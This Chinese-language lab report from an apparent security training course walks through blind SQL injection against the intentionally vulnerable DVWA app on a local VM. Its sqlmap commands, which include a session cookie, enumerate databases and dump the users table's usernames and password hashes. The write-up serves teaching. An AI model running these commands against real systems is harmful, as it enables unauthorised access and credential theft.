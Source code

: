 ```yaml
---
title: "网络安全实训6——SQL注入"
tags:
  - 网络安全实训
  - SQL注入
categories:
  - 网络安全
  - 实训
  - 实验报告
date: 2024-07-13 08:06:00
cover: https://img-blog.csdnimg.cn/6a525f6f18c64ca788535b07bd3b86ec.png#pic_center

---
```


# 网络安全实训 6——SQL 注入

## 安装环境

知新平台的文档图片无法加载

![image-20240713082058344](../img/zuolao/6/image-20240713082058344.png)

![image-20240713082140158](../img/zuolao/6/image-20240713082140158.png)

查看源码发现是外部引用，尝试恢复

恢复成功

![image-20240713082204564](../img/zuolao/6/image-20240713082204564.png)

## 开启 OWASP 靶机和 Kali 虚拟机

登录 dvwa

![image-20240713082833701](../img/zuolao/6/image-20240713082833701.png)

安全等级调 low

![image-20240713082944615](../img/zuolao/6/image-20240713082944615.png)

进入 SQL Injection（Blind）页面

![image-20240713083014817](../img/zuolao/6/image-20240713083014817.png)

### 随意输入一个数字，然后点击提交

![image-20240713083040908](../img/zuolao/6/image-20240713083040908.png)

### 安装 SQLmap

我用的是裸机当攻击机，所以安装个 SQLmap

![image-20240713083253628](../img/zuolao/6/image-20240713083253628.png)

### 用 F12 打开开发者工具

### 选中 Storage（存储）选项卡，找到 cookies，复制其中 PHPSESSID 的值（获取 cookies）

得到 `59mb9spqvkd9cuk543thagtsd5`

### 由于浏览器提交方式为 get 型，sqlmap 采用-u 命令。将刚才复制的 URL 和 COOKIE 写入命令

![image-20240713083823046](../img/zuolao/6/image-20240713083823046.png)

![image-20240713084248322](../img/zuolao/6/image-20240713084248322.png)

出错了，查看 Github 的 README 发现是需要前面加 `python` 运行

![image-20240713084138720](../img/zuolao/6/image-20240713084138720.png)

找到注入点

![image-20240713085141292](../img/zuolao/6/image-20240713085141292.png)

### 为了查看有哪些数据库，输入命令：

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --dbs`

![image-20240713085259586](../img/zuolao/6/image-20240713085259586.png)

### 为了查看有当前数据库，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --current-db`

![image-20240713085348741](../img/zuolao/6/image-20240713085348741.png)

### 为了查看数据库中所有的表，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables`

![image-20240713085431822](../img/zuolao/6/image-20240713085431822.png)

### 为了查看 users 表中有哪些列，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns`

![image-20240713085615328](../img/zuolao/6/image-20240713085615328.png)

### 爆破表中 user 和 password 这两列

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C"user,password" --dump`

爆破成功

![image-20240713085739164](../img/zuolao/6/image-20240713085739164.png)

上面有报错，问了下 ChatGPT-4o，也没啥有用的信息

![image-20240713090351933](../img/zuolao/6/image-20240713090351933.png)

重试了一下正常了

![image-20240713090344216](../img/zuolao/6/image-20240713090344216.png)

## 过程中的命令

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --dbs

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --current-db

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C "user, password" --dump

